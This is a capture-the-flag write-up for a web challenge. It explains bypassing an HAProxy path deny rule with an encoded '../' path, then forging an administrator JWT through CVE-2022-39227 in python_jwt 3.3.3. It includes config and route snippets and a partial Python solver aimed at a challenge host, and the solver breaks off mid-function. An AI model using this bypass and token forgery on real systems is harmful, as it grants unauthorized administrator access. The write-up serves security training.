 **Solving Scenario:**\
Source code analysis reveals that the requirements.txt file uses the python_jwt library version 3.3.3, which is vulnerable to CVE-2022-39227.

In the haproxy.cfg config file, there is access protection to the /api/v1/get_ticket endpoint:

``` sh
frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend

    http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

In the routes.py API file, the flag can be obtained with GET requests to the /api/v1/flag endpoint. However, a JWT with an administrator role is required:

``` python
@api_blueprint.route('/flag', methods=['GET'])
@authorize_roles(['administrator'])
def flag():
    return jsonify({'message': current_app.config.get('FLAG')}), 200
```

To obtain the JWT token, you need to make GET requests to the /api/v1/get_ticket endpoint, and you will receive a JWT token with a payload role as a guest:

``` python
@api_blueprint.route('/get_ticket', methods=['GET'])
def get_ticket():

    claims = {
        "role": "guest", 
        "user": "guest_user"
    }
    
    token = jwt.generate_jwt(claims, current_app.config.get('JWT_SECRET_KEY'), 'PS256', datetime.timedelta(minutes=60))
    return jsonify({'ticket: ': token})
```

The exploitation flow to obtain the flag is as follows:
1. Generate a JWT Token with access to /api/v1/get_ticket, bypassing haproxy with /api/v1/../v1/get_ticket
2. JWT Token forgery with CVE-2022-39227 to change the role to administrator
3. Access the /api/v1/flag endpoint

Here is the solver:

``` python
import requests
import json
import subprocess

URL = "http://94.237.57.155:36254"

class Exploit:
	def __init__(self, url=URL):
		self.url = url

	def generateToken(self):
		req = requests.get(self.url + "/api/v1/%2e%2e/v1/get_ticket")
		data = json.loads(req.text)

		return data["ticket: "]

	def tokenForge(self):
		exp = subprocess.check_output([f"python3 CVE-2022-39227/cve_2022_39227.py -j {self.generateToken()} -i 'role=administrator'"],shell=True).decode()
```